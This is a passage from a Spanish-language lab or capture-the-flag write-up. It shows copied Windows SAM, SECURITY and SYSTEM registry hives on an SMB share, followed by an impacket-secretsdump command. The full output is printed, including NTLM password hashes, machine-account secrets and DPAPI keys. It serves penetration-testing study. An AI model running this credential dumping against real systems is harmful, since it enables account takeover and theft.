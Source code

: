 Con esto lo que habremos echo sera guardar esas carpetas (`backups`) en la carpeta `smbshare`, si listamos dicha carpeta veremos lo siguiente:

```shell
ls -la smbshare
```

Info:

```
total 11324
drwxr-xr-x 2 root root     4096 Apr  1 15:10 .
drwxr-xr-x 4 kali kali     4096 Apr  1 15:09 ..
-rwxr-xr-x 1 root root    28672 Apr  1 15:10 SAM
-rwxr-xr-x 1 root root    32768 Apr  1 15:10 SECURITY
-rwxr-xr-x 1 root root 11526144 Apr  1 15:10 SYSTEM
```

Veremos que ha funcionado, por lo que vamos a extraer los `hahes` de dicho archivo de la siguiente forma:

```shell
impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:38665bf3f150a3cd7cfd048867fc9a0c79d070db919852e0c8e16acc4e6924783535fc40457547c0034f997fbf3ea356d6b5e4eb89fbf3238083f603e42c42289ae2d0d93466d6bd1efc4ffb31c1ae74dc3128ff3f1d2e86066b73e4ac5ff49dca106807707cda0a191a3d748fca24caedfa199b6047b347c4a9b3a3a4029f486d0a84103879fea4234e1949cefd128afa0678c107344cc9cec7fe8a46ecc5bbb667841bc6190a96662b1db1bf1b56178e60be534ba836b6d1633e6610bdb7b4c1106f6425535e9954fae7aa97e496e9a986e32c9bcfeed7c814ac90361ccc8fc56734bb8f6ea12bdef7839c4fa17417
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:73d82a1beee2bf886b0ea8421f66240d
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up...
```
